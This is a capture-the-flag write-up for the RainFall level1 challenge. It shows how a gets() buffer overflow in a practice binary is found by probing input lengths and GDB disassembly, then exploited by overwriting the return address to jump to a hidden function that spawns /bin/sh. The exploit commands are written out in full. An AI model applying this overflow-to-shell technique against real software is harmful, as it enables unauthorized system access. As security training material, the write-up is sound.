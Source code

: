 `gets` is being called and gets can be exploit via buffer overflow.

The program will crash with a big string.

By tring varius lenght if found :

```
level1@RainFall:~$ python -c "print('a' * 75)" | ./level1
level1@RainFall:~$ python -c "print('a' * 76)" | ./level1
Illegal instruction (core dumped)
level1@RainFall:~$ python -c "print('a' * 77)" | ./level1
Segmentation fault (core dumped)
```

Illegal instruction is the proof there's an overflow, so we will attack with a buffer overflow of 76.

Knowing why it's 76 can be good, it guess the buffer is 64bytes long (char buffer[64]) and it took 12 more bytes to reach the return adresse of gets

GDB dissas
```
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp    
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax     
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
(gdb) disass run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp     
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
(gdb) x/s 0x8048570
0x8048570:       "Good... Wait what?\n"
```

run is a function but is not called, no big deal we got everything !

/bin/sh will be called with system, that's exactly what we want and the address that starts this is **0x08048444**.

so by overflowing the buffer and calling the right address like this (adress is reversed because it's like this cpu reads adresses)

https://owasp.org/www-community/attacks/Buffer_overflow_attack

`python -c "print('a' * 76 + '\x44\x84\x04\x08')" | ./level1`

We did get the message "Good... Wait what?\n" but also got segfault right after. So we need to block the command

`(python -c "print('a' * 76 + '\x44\x84\x04\x08')"; cat) | ./level1`

`cat` will block the le shell `system` just gave us, in parenthesis so the pipe is for all the command